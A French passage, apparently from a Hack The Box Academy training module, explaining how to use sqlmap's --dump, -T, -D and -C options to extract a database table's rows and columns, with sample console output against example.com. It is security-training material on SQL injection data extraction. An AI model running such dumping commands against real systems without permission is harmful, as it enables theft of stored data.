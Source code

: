 Après avoir repéré le nom de la table qui vous intéresse, la récupération de son contenu peut être effectuée en utilisant l' `--dump`option et en spécifiant le nom de la table avec `-T users`, comme suit :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'

```

La sortie de la console montre que la table est sauvegardée au format CSV formaté dans un fichier local, `users.csv`.

Astuce : Outre le CSV par défaut, nous pouvons spécifier le format de sortie avec l'option `--dump-format` en HTML ou SQLite, afin de pouvoir ultérieurement étudier plus en détail la base de données dans un environnement SQLite.

![SQLite](https://academy.hackthebox.com/storage/modules/58/pVBXxRz.png)

* * * * *

Énumération de table/ligne
--------------------------

Lorsqu'il s'agit de grands tableaux comportant de nombreuses colonnes et/ou lignes, nous pouvons spécifier les colonnes (par exemple, uniquement `name`et `surname`colonnes) avec l' `-C`option suivante :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+

```
